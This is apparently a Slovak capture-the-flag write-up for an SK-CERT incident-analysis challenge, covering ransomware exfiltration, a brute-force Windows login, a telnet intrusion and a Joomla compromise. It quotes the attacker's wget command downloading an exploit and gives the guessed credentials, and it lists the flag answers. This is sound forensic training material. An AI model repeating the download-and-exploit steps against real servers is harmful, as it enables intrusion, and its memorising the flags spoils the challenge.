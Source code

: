 # SK-CERT - DÁTOVÁ ANALÝZA
> Ozvala sa nám spoločnosť, ktorá dostala hlásenie že majú infikovaný počítač ransomvérom. Ten je špecifický tým že posiela vygenerovaný privátny klúč na útočníkov server. Prikladáme vám pcap: https://drive.google.com/file/d/13arhVaKNFD_g2qCjuDBrECmpN6MKd4Rw/view?usp=sharing <br/>
Reported Difficulty: 1


## Kontrola
> Z dodaného PCAP súboru je potrebné zistiť či naozaj je spoločnosť infikovaná, a pokiaľ áno, tak je potrebné zistiť o aký privátny klúč sa odosiela. Vlajka je IP adresa serveru na ktorý sa klúč odoslal.

Musim uznat ze som to isiel skratkou a skusal rozne IPecky z komunikacie kym som nenatrafil na tu pravu: `194.182.66.53`

```
flag: 194.182.66.53
```

## Windows?
> Zdrojová IP počítača ktorý odosielal privátny klúč, patrí lokálnemu počítaču s windows. Je potrebné zistiť ako prenikli do tohto systému. Prikladáme bezpečnostný log v XML formáte.
https://drive.google.com/file/d/1pmJNCfgnpTCMewCaRioqagYj0_VLcold/view?usp=sharing
Vlajka je dátum a čas prvého prieniku (Formát Y-m-d H:i:s)

V tomto kroku mame securty log v xml, otvorime ho v LibreOffice Calc a pozrieme sa na rozne eventy co tam mame. Zo poctu roznych logov vidime vysoky vyskit 4625 co je Failed Login.

![](images/2022-03-06-12-36-54.png)

Ked si vyfiltrujeme vsetky 4625 eventy vidime ze vsetky maju FailureReason `%%2313` co je `Unknown user name or bad password. (529)`, targetuser je `victim` a zdrojom je `LinuxServerWebServer`. Vyzera to na bruteforce login ktory, ako predpokladame ze bol bol enty point, nas flag by mal byt prvy successfull login attempt po poslednom failed:

![](images/2022-03-06-12-55-59.png)

```
flag: 2022-02-22 20:40:08
```

## Ktorý proces?
> Po bruteforce útoku a prihlásení, útočník spustil malvér. Je potrebné zistiť meno procesu. Vlajka je meno procesu (Formát: meno_procesu.format)

V LibreOffice vyfiltrujeme vsetky eventy s ProcessName a NewProcessName a hladame nieco podozrive po case prveho successfull loginu utocnika a o chvilku to mame:

![](images/2022-03-06-13-10-07.png)

```
flag: YouWillCryRansomware3000.exe
```

## Otvorený test
> Kompromitovaný LinuxServerWebServer je náše testovacie prostredie, aplikácie na serveri sú dostupné iba z lokálnej siete, ale telnet server je otvorený do sveta. Prikladáme Pcap s potrebnými dátami. https://drive.google.com/file/d/1y3pOvG9PDGf7Sg7HtgOGvfjpk6qlVYor/view?usp=sharing
Vlajka je EpochTime prieniku do systému (bez milisekúnd).

Po otvoreni pcap suboru, poobzerame sa trosku okolo a uvidime ze sa niekdo snazi prihlasit cez telnet session:

![](images/2022-03-06-15-43-26.png)

Skusime hladat "Login" v paketoch s cielom najst prvy success login, a po niekolko desiatok klikoch narazame na "Last Login" message ktora sa objavuje po uspesnom prihlaseni sa.
![](images/2022-03-06-15-48-16.png)

Pre istotu pojdeme este zopar paketov vyssie aby sme sa uistili ze to bol utocnik ktory uhadol login a heslo. Po prezreti zopar desiatok paketov predtym vidime ze utocnik uhadol login `bob` a heslo `adminbob` a paket cislo `6262` mozeme povazovat ako okamih preiniku do systemu ktory ma EpochTime (bez milisekund)

![](images/2022-03-06-15-53-52.png)

```
flag: 1645560004
```

## Stará joomla
> Z logov sme zistili že útočník vyhackoval aj našu joomlu na testovacom serveri. Z posledného PCAP súboru je potrebné zistiť aký exploit útočník použil.
Vlajka je url odkial útočník exploit stiahol (Formát: www.stránka_exploitu.doména/cesta_k_exploitu)

Pri pozerani zopar dalsich paketov, vidime ze utocnik prve co spravil je `wget https://www.exploit-db.com/download/47465`, rychly nahlad do toho url nam potvrdzuje ze ide o Joomla expoit.

![](images/2022-03-06-16-16-09.png)

```
flag: www.exploit-db.com/download/47465
```



